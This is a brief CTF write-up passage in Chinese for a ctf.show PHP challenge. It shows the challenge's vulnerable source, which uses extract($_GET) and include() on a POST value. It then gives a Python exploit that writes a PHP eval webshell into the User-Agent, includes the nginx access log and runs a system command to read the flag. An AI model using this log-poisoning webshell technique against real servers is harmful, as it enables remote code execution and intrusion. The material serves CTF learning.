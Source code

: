 ```
}

function __destruct(){
    echo $this->secret;
}

public function isVIP(){
    return $this->vip?TRUE:FALSE;
    }
}

function __autoload($class){
    if(isset($class)){
        $class();
}

}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE){
    include($ctf);
}
```

在网上看到了一个非预期往日志走写入一句话



日志包含，UA写一句话。`QUERY_STRING`和`extract`使isvip为1（web127）

exp：

```
import requests
url = "http://888cbe1b-d96b-4304-9502-4ba090d23aee.challenge.ctf.show/" + "?isVIP=1"
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0<?php @eval($_POST[1]);?>'
}
data = {
    'ctf': '/var/log/nginx/access.log',
    '1':'system("tac f*");'
}
r = requests.post(url=url, headers=headers, data=data).text
print(r)
```
